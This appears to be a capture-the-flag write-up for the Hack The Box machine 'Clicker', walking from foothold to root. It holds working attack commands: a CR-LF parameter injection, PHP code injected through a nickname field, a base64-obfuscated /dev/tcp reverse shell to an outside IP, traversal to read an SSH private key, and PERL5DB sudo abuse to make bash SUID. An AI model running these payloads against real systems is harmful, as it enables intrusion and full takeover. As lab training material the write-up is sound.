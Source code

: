 ```yaml
---
slug: /write-up/htb/medium/clicker
pagination_next: null
pagination_prev: null
---
```


## Enumeration

The machine has a NFS share sharing the source code

Checking the source code we see a potential SQL injection following a similar pattern of this:

https://phpdelusions.net/pdo/sql_injection_example

curl -vv 'http://clicker.htb/save_game.php?clicks=0&level=0&nickname=blabla' -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh'

We can arbirtraryly change key-values in the database in the query, however, there's a explicit check to try to change the role:

```php
	foreach($_GET as $key=>$value) {
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
```

## Foothold

In order to avoid this, we need to mask the key somehow, an idea can be to bypass that restriction using CR-LF injection:

```bash
curl -vv 'http://clicker.htb/save_game.php?role%0a=Admin' -H 'Cookie: PHPSESSID=k002rk00q1d5v73c3nvjgabeie'
```

Now, we are admin in the PHP application and we can perform more enumerations.

We discovered some interesting pages:
- admin.php: Generates a list with the top users.
- export.php: Generate a file `exports/top_players_fwhb6q51`, no more info. Maybe it's good to do user enumeration?
- diagnostic.php: Protected by a md5 token

We can access the generated files by the exporting function...
```bash
curl -vv 'http://clicker.htb/export.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Cookie: PHPSESSID=k002rk00q1d5v73c3nvjgabeie' --data-raw 'threshold=0&extension=html'
```

We can change the extension to PHP. 

```bash
curl -vv 'http://clicker.htb/export.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh' --data-raw 'threshold=0&extension=php'
```

We can change the nickname of the user to execute arbitrary PHP code. We'll change the nickname to make execute the following PHP code:

```php
<?php $output = exec('id');echo "$output";?>
```

```bash
curl -vv 'http://clicker.htb/save_game.php?clicks=0&level=0&nickname=%3C%3Fphp%20echo%20%221234%22%3B%3F%3E' -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh'
```

Now we can repeat the process but to run a reverse shell:

```php
<?php system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjAvNDQ0NCAwPiYx|base64 -d|bash")?>
```

```bash
curl -vv 'http://clicker.htb/save_game.php?clicks=0&level=0&nickname=%3C%3Fphp%20system%28%22echo%20c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjAvNDQ0NCAwPiYx%7Cbase64%20-d%7Cbash%22%29%3F%3E' -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh'
```

We get a shell for the user www-data. We discovered a user named `jack` by checking /etc/passwd

## Lateral movement

During enumeration we discover there are two files in `/opt` files:

- monitor.sh: script that downloads the output of diagnostic.php, the user needs to be root
- manage/README
- manage/executequery: binary file that setup up all the environment

Let's download it and analyse it using `ghidra` ...

```c
    iVar1 = atoi(*(char **)(param_2 + 8));
    pcVar3 = (char *)calloc(0x14,1);
    switch(iVar1) {
    case 0:
      puts("ERROR: Invalid arguments");
      uVar2 = 2;
      goto LAB_001015e1;
    case 1:
      strncpy(pcVar3,"create.sql",0x14);
      break;
    case 2:
      strncpy(pcVar3,"populate.sql",0x14);
      break;
    case 3:
      strncpy(pcVar3,"reset_password.sql",0x14);
      break;
    case 4:
      strncpy(pcVar3,"clean.sql",0x14);
      break;
    default:
      strncpy(pcVar3,*(char **)(param_2 + 0x10),0x14);
    }
```
There's a default option that would copy any provided value in param_2 into `pcVar3`

```c
    local_98 = 0x616a2f656d6f682f;
    local_90 = 0x69726575712f6b63;
    local_88 = 0x2f7365;
    sVar4 = strlen((char *)&local_98);
    sVar5 = strlen(pcVar3);
    __dest = (char *)calloc(sVar5 + sVar4 + 1,1);
    strcat(__dest,(char *)&local_98);
    strcat(__dest,pcVar3);
    setreuid(1000,1000);
    iVar1 = access(__dest,4);
    if (iVar1 == 0) {
      local_78 = 0x6e69622f7273752f;
      local_70 = 0x2d206c7173796d2f;
```

`local_98` value corresponds to the string `/home/jack`. So, what it's doing this program is forcing the provided file is inside `/home/jack` folder, which we don't have access. However, we can read the private SSH key with this mechanism:

```bash
www-data@clicker:/opt/manage$ ./execute_query 5 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
```

Now we just need to adapt the private key format comparing with some valid private key and boom, we are in as `jack`:

```bash
ssh jack@clicker.htb -i ../exfil/priv_key 
```

And we can read the user flag.

## Privilege escalation

`sudo -l` shows interesting stuff:

```bash
User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```

First of all, we try to run the monitoring script to see what happens:

```bash
jack@clicker:~$ sudo /opt/monitor.sh 
<?xml version="1.0"?>
<data>
```

An potential way to exploit this, is set the `EUID` to a number different than 0 so that it enters in the if when the user is not root:

```bash
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;
```

The PATH is not well protected and if we provide the proper PATH variable, we can make `echo` program to point to our fradulent implementation ... Let's give it a try ...

Interesting, this technique does not seem to work with `echo` for some kind of reason but work with `ls` for instance. Looks like `echo` is a bult-in executable in the shell and does not use the `PATH` variable to determine where is it.

We can use `PERL5OPT` to set the debugger flag for perl and `PERL5DB` to specify the command we want to use as a debugger:

```bash
jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("ls");' /opt/monitor.sh 
queries  user.txt
```

However, if we try to get a shell from here, we'll fail:

```
jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("/bin/bash");' /opt/monitor.sh 
/bin/bash: line 1: syntax error near unexpected token `newline'
/bin/bash: line 1: `<?xml version="1.0"?>'
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.
```

But, we can do a nasty thing, we can set the SUID flag so that if keeps the root permission, even if the user is not root:

```bash
sudo PERL5OPT=-d PERL5DB='system("chmod u+s /bin/bash");' /opt/monitor.sh

jack@clicker:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

If we run bash normally we'll not get the root console:

```bash
jack@clicker:~$ bash
bash-5.1$ whoami
jack
```

However, there's a flag `-p` in bash to use the effective user id instead of the real user id:

```bash
jack@clicker:~$ bash -p
bash-5.1# whoami
root
```

And now we can read the root flag.